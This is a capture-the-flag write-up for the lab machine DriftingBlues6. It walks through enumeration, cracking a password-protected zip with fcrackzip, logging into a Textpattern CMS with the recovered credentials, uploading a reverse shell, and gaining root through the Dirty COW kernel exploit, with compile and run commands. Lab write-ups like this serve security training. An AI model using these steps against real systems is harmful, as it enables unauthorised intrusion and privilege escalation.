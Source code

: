 ```yaml
---
title: "Proving grounds Play: DriftingBlues6"
layout: post
date: 2023-09-10 01:00
categories: writeup
---
```


Proving grounds Play - DriftingBlues6 CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/web.png)

## Fuzzing for files

/robots.txt

**Robots File**

```text
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)
```

### Login

http://192.168.151.219/textpattern/textpattern/

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/login.png)

Zip file found at `http://192.168.151.219/spammer.zip`. File is password protected and which can be easliy cracked using `fcrackzip` tool.

```sh
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt spammer.zip
```

Extracted password: `myspace4`

Extracted `creds.txt` has login credentials for the CMS application.

```text
mayer:lionheart
```

Login to the application and upload reverse shell.

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/upload.png)

Checked the document root configuration and triggered the reverse shell file.

**Initial foothold obtained**

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/shell.png)

## Privilege Escalation

Check the kernel version to escalate privileges.

```sh
uname -a
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
```

Linux kernel <3.2.0-4-amd64 is vulnerable to [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839).

Download the exploit into the attacking machine and compile the code as mentioned in the exploit.

Run the exploit as follow:

```sh
gcc -pthread dirty.c -o dirty -lcrypt
./dirty password #password is the password for the user firefart created by the exploit
```

Switch user to `firefart` and use the password `password`.

![img](/assets/images/CTF/Proving_Grounds/DriftingBlues6/root.png)

**Root shell obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).